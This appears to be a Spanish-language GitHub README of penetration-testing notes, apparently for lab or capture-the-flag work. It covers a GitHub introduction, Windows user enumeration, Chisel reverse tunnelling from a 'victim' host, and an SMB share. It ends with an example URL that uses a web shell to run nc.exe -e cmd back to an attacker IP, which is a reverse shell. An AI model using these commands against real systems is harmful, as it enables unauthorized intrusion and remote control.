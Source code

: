 
# ¿Qué es GitHub?

Github es un portal creado para alojar el código de las aplicaciones de cualquier desarrollador, y que fue comprada por Microsoft en junio del 2018.
La plataforma está creada para que los desarrolladores suban el código de sus aplicaciones y herramientas, y que como usuario no sólo puedas
descargarte la aplicación, sino también entrar a su perfil para leer sobre ella o colaborar con su desarrollo.

Git se utiliza también como sistemas de control, ya que permite comparar el código de un archivo para ver las diferencias entre las versiones, restaurar versiones
antiguas si algo sale mal, y fusionar los cambios de distintas versiones. También permite trabajar con distintas ramas de un proyecto, como la de desarrollo
para meter nuevas funciones al programa o la de producción para depurar los bugs.

Github permite que los desarrolladores alojen proyectos creando repositorios de forma gratuita. Pero hay que tener una cosa en mente, y es que para poder subir gratis
los proyectos deberán ser de código abierto. Y no quieres que tu aplicación sea de código abierto, la plataforma también tiene una versión de pago para alojar proyectos
de forma privada.


# rlwrap nc

Como añardir rlwrap a netcat para aplicar una shell interactiva.



# Comandos Terminal CMD Windows

## Ver Usuarios

Este comando tiene la tarea de enumerar todas las cuentas de usuario existentes en el sistema donde se incluyen la cuentas ocultas o cuentas de usuario deshabilitadas.
Estas cuentas de usuario se enumeran con su nombre interno asignado.

    net user
      
Podremos almacenar los resultados en un archivo de texto usando la siguiente sintaxis:

    net user > archivo.txt

También podemos indicar una ruta personalizada si así lo deseamos:
 
    net user > “ruta\archivo.txt
    
### Ver información detallada de un Usuaerio

Para obtener información mucho más detallada de un usuario del sistema, podemos ejecutar lo siguiente. Allí
vemos información precisa y completa sobre el usuario seleccionado.

    net user “usuario”

## Cambiar el nombre a un Archivo
    
Para cambiar el nombre de archivo2.txt por archivo3.txt, se puede usar el comando REN (o RENAME) escribiendo:

    REN archivo2.txt archivo3.txt 
    
    
# Crear un tunel con Chisel entre Linux y Windows:

##¿Qué es Chisel?

``Chisel es un túnel TCP/UDP rápido, transportado a través des servicio HTTP y protegido a través de SSH``. Esta escrito en Go  y utiliza el
protocolo de ``cliente`` a ``servidor``.  Chisel es principalmente útil para pasar a través de firewalls, aunque también se puede usar para 
proporcionar un punto final seguro en su red.

## Redireccionar puertos con Chisel a nuestra localhost:

Una vez hemos ganado acceso o tenemos la posibilidad de subir archivos y ejecutar comandos en el dispoditivo víctima, podemos crear un tunel
con ``chisel``. Mediante esta herramienta podremos establecer una conexión de ``cliente`` a ``servidor`` y conectar dos puertos entre si.
Básicamente conectamos un puerto de la máquina víctima con uno de nuestro equipo, de tal forma, que podemos ejecutar cualquier herramienta en 
local utilizando ese puerto, y automaticamente se redireccionara el ataque a la maquina victima.

### Establecer conexión por parte del Servidor (Linux):

En primer lugar, debemos de estabecer ``Chisel`` en modo ``Servidor`` en nuestro sistema Linux, para ello debemos de asegurarnos que la versión de
Chisel instalada es la adecuada para nuestra distribución. Para establecer nuestro sistema como servidor simplemente ejecutamos el siguiente comando
especificando el puerto que por el que vamos a establecer la conexión. Es importante que este puerto no se encutre en us.

    chisel serve --reverse --port [Puerto Local Conexión] 
    
    ./chisel serve --reverse -p [Puerto Local Conexión] 

``Ejemplo``

    chisel serve --reverse -p 8081

Aquí podemos ver como en el ejemplo hemos establecido un servicio de servidor con Chisel por el puerto 8081, este puerto es el que posteriormente
tendremos que especificar en el servicio por parte del Cliente para realizar la conexión.
    

### Establecer conexión por parte del Cliente (Windows):

Para establecer Chisel en un sistema Windows como ``Cliente``, nos descargamos la versión especifica para Windows (debemos de comprobar 
si el sistema es de 32 o 64 bits) y ejecutamos el siguiente comando. En el debemos especificar el puerto por el que vamos a comunicarnos 
con nuestro servicio ``Servidor`` y los puestos que vamos a comunicar entre si:


    .\chisel.exe client [Ip Local]:[Puerto de Conexión] R:[Puerto Víctima]:127.0.0.1:[Puerto Local]
    
``[Ip Local]``: Es la Ip de nuestro sistema Servidor. O en caso de estar conectados por VPN su Ip pública.  
    
``[Puerto de Conexión]``: Es el puerto establecido en la conexión con el Servidor. Debe ser el mismo puerto que especificado en el sistema Linux.  
    
``[Puerto Víctima]`` y ``[Puerto Local]``: El puerto Víctima pasará a ser el puerto local de nuestro local host 127.0.0.1.
    
    



---

# Crear recurso compartido con Smbserver:


    smbserver.py smbFolder $(pwd) -smb2support
    
    
De esta forma crearemos un recurso compartido a nivel de red que al cual podremos acceder desde cualquier navegador y pudiendo ver y compartir
archivos.

Para acceder a este recurso compartido simplemente escribimos nuestra Ip en el navegador seguido del nombre que le hemos dado a la carpeta compartida,
en este caso ``smbFolder``.

``Ejemplos``:

Mostrar con dir los recursos compartidos:
  
    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=dir \\10.10.14.75\smbFolder\
    

Ejecutar nc.exe a través del navegador, tendremos que especificar una direccion y un puerto de escucha:

    http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.75\smbFolder\nc.exe -e cmd [Ip Atacante] [Puerto en Escucha]
    
    
